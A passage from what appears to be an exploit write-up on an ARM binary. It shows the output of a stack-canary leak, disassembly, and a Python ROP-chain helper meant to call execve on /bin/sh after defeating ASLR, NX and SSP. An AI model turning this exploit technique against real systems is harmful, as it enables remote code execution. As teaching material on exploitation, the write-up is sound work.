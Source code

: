 Iterating using this method for the 4 bytes allows us to leak the canary:

```bash
~ $ py exploit.py
[*] Leaking canary
Found valid byte '0'
Found valid byte 'e6'
Found valid byte '74'
Found valid byte '60'
Canary is 0x6074e600
```


### Building the ROP sequence ###

Almost there! We have bypassed ASLR, PIC, NX and SSP. In x86, we would be just
done. ARM however uses one register (saved on stack) to save the return address
(called the Link Register) along with all the non-volatile registers that must
be preserved across functions calls.

IDA shows that the `parse_request()` function finishes its execution by
restoring the context of the calling function:
```
.text:000016D0 loc_16D0
.text:000016D0 ADD     SP, SP, #0xC
.text:000016D4 ADD     SP, SP, #0x1000
.text:000016D8 LDMFD   SP!, {R4-R11,PC}
```

As we can see $pc is restored from the stack right after some registers. Since
everything is in the stack on which we have total control over, when we
call `execve()`, the execution flow would expected that the pointer to our
string to execute be in $r0 as per ARM calling convention. So we need an extra
gadgets to pop the `/bin/sh` address directly into $r0. `gef` module `ropgadget`
will work perfectly for this. Finding suitable gadgets is a little harder on ARM
than x86 as you find hardly instructions to pop directly into your argument
registers (for example `pop{r0}`, or `pop{r1}`) So you'll need to chain them
adequately, bearing in mind which registers will be affected the gadgets (for
example `blx` will also affect the Link Register which may be indesirable).
Building the ROP sequence for this binary is not hard, so I built a helper
function:

```python
def rop_call(func, arg1=0, arg2=0, arg3=0):
     p = p32(exe+0x0c80)      # pop {r3, pc}
     p+= p32(exe+0x0c80)      # pop {r3, pc}
     p+= p32(exe+0x16d8)      # ldmfd sp!, {r4-r11,pc}
     p+= "AAAA"               # r4
     p+= "AAAA"               # r5
     p+= p32(arg1)            # r6
     p+= p32(arg2)            # r7
     p+= p32(arg3)            # r8
     p+= "AAAA"               # r9
     p+= "AAAA"               # r10
     p+= "AAAA"               # r11
     p+= p32(exe+0x1abc)      # mov r0, r6 ; mov r1, r7 ; mov r2, r8 ; add r4, r4, #1 ; blx r3
     p+= p32(func)
     p+= p32(libc+0x71bc4)    # pop {lr} ; bx r3
     p+= p32(libc+0xdd474)    # pop {r4, pc}
     p+= "AAAA"
     return p
```

